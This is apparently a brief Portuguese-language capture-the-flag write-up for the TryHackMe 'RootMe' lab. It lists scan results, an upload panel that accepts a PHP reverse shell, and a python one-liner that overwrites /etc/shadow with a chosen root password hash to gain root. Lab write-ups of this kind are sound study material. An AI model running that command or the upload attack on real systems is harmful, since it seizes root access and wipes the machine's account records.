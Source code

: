 #ctf
# RootMe
https://tryhackme.com/room/rrootme

## NMAP
- Porta 22/tcp aberta: SSH
  - Versão: OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocolo 2.0)
- Porta 80/tcp aberta: HTTP
  - Servidor: Apache httpd 2.4.29 ((Ubuntu))

## GOBUSTER
- `/panel` -> Permite fazer upload de um arquivo PHP5 com shell reverso.
- `/uploads`

## PRIVESC
- `/usr/bin/python` pode ser utilizado para escalonamento de privilégios.

- É possivel usar o python para escrever uma nova senha para o root. 

  ```bash
  python -c 'open("/etc/shadow","w+").write("root:$6$KHvevc8xinNX0YYC$h2jFKDnWzGG0Na.63DHOtX6dHkg18f5a0AwovLqIYKUI6.2B4UKE9WSRvvzMaj.zuNjecnmkbGlptgK7sBY6.0:18478:0:99999:7:::")'
  ```
  
GG

